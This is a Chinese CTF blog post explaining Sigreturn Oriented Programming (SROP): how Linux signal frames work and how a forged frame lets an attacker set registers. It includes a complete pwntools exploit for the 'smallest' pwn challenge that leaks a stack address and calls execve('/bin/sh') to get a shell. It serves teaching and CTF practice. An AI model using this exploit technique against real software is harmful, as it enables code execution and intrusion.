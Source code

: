 
title: SROP

date: 2018-02-21 19:58:12

categories: 
- CTF
- SROP


SROP全称为 Sigreturn Oriented Programming ，表明利用sigreturn这个函数实现ROP的技术。


### 参考资料

http://www.freebuf.com/articles/network/87447.html
http://bobao.360.cn/learning/detail/3694.html
http://bobao.360.cn/learning/detail/3675.html
http://mutepig.club/index.php/archives/55/
http://www.angelwhu.com/blog/?p=504


### Signal机制

[![img](SROP/srop_1.png)](https://amliaw4.github.io/image/srop_1.png)

1.
首先，当由中断或异常产生时，会发出一个信号，然后会送给相关进程，此时系统切换到内核模式。

内核会执行do_signal()函数，最终会调用setup_frame()函数来设置用户栈。
（在栈中保存了进入内核前所有寄存器的信息，还会push一个 signal function 的返回地址——sigruturn()的地址）

2.
当这些准备工作完成后，就开始执行由用户指定的signal function了。
（调用的函数）

3.
当执行完后，因为返回地址被设置为sigreturn()系统调用的地址了，所以此时系统又会陷入内核执行sigreturn()系统调用。
（恢复保存的寄存器的信息）

### 利用思路

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。

重要思路如下

通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
通过syscall执行execve(“/bin/sh”,0,0)来获取shell。

### 示例

这里以360春秋杯中的smallest-pwn为例

```
#coding=utf8
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
# if args['REMOTE']:
#     sh = remote('127.0.0.1', 7777)
# else:
sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times

payload = p64(start_addr) * 3
# gdb.attach(sh)
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr

# gdb.attach(sh)
sh.send('\xb3')

stack_addr = u64(sh.recv()[8:16])
print "stack_addr = " + hex(stack_addr)
log.success('leak stack addr :' + hex(stack_addr))


## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
print "constants.SYS_read = " + hex(sigframe.rax)
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)

# gdb.attach(sh)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'A' * 7  # 覆盖上面的 'a'*8

# gdb.attach(sh)
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'

# gdb.attach(sh)
sh.send(payload)

# gdb.attach(sh)
sh.send(sigreturn)

sh.interactive()
```